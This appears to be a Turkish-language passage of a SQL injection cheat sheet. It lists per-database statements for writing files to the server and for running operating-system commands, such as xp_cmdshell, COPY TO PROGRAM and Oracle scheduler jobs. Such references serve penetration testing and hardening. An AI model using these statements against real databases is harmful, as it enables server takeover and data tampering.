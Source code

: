 # Dosya Yazma
Yerel dosyalara içerik yazmak için kullanılan yöntemler aşağıda verilmiştir.

### Variant: Statement
- **MySQL**: `SELECT 'contents' INTO OUTFILE '/path/to/file'`
- **PostgreSQL**: `COPY (SELECT 'contents') TO '/path/to/file'`
- **MSSQL**: `execute spWriteStringToFile 'contents', 'C:\path\to\', 'file'`
- **Oracle**: `utl_file.put_line(utl_file.fopen('/path/to/','file','R'), <buffer>)`
- **SQLite**: `SELECT writefile('/path/to/file', column_name) FROM table_name`

# OS Komutlarını Çalıştırma
Yerel işletim sistemi komutlarını çalıştırmak için kullanılan yöntemler aşağıda verilmiştir.

### Variant: Statement
- **MySQL**: `Not Possible`
- **PostgreSQL**: `COPY (SELECT '') to program '<COMMAND>'`
- **MSSQL**: `EXEC xp_cmdshell '<COMMAND>'`
- **Oracle**: `SELECT os_command.exec_clob('<COMMAND>') cmd from dual`
  ```
  DBMS_SCHEDULER.CREATE_JOB (job_name => 'exec', job_type => 'EXECUTABLE', job_action => '<COMMAND>', enabled => TRUE)
  ```
- **SQLite**: `Not Possible`
